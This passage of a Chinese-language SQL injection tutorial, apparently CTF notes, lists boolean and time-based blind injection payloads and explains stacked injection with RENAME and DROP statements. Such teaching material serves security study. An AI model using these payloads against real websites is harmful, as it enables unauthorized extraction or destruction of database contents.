 #### 爆破内容
```sql
# 猜测当前数据库的名字
and ascii(substr((select database()),1))=115--+

# 猜测某张表的表名
and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5))=115 --+

# 猜测某张表里的某个列名
and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),8))=101 --+

# 猜测某张表里列名为 username 的数据
and ascii(substr((select username from users limit 0,1),1)) = 68--+
```

### 时间盲注
时间盲注主要是在布尔盲注的基础上, 利用可延时函数进行判断. 主要可以分为以下几种:
 - sleep
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,sleep(5),1) --+
```
 - benchmark
```sql
# 表达式为 Ture 时, 页面卡住 5 秒, 否则页面卡住一秒.
and if(length(database())=8,benchmark(10000000,sha(1)),1) --+
```
 - 笛卡尔积
```sql
# 延迟不精确, count()数量大时, 费时就高; count()数量小时, 费时就低.
and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C); --+
```
 - get_lock
```sql
# ctf表被锁住的前提下, 才会延迟 5 秒后进行判断(0=1), 否则不延迟就进行判断(1=1)
and get_lock('ctf',5)=1 --+
```
 - rlike
```sql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

### 堆叠注入
堆叠注入在`MySQL`上不常见, 必须要用到`mysqli_multi_query`或者`PDO`, 可以用分号分割来执行多个语句, 相当于可直连数据库. 由于分号`;`为`MySQL`语句的结束符, 若在支持多语句执行的情况下, 可利用此方法执行其他恶意语句, 如`RENAME`、`DROP`等.

注意, 通常多语句执行时, 若前条语句已返回数据, 则之后的语句返回的数据通常无法返回前端页面. 因此可以使用`union`联合注入, 若无法使用联合注入, 可考虑使用`RENAME`关键字, 将想要的数据列名/表名更改成返回数据的`SQL`语句所定义的表/列名. 参考: [2019强网杯——随便注](https://blog.csdn.net/qq_44657899/article/details/103239145).
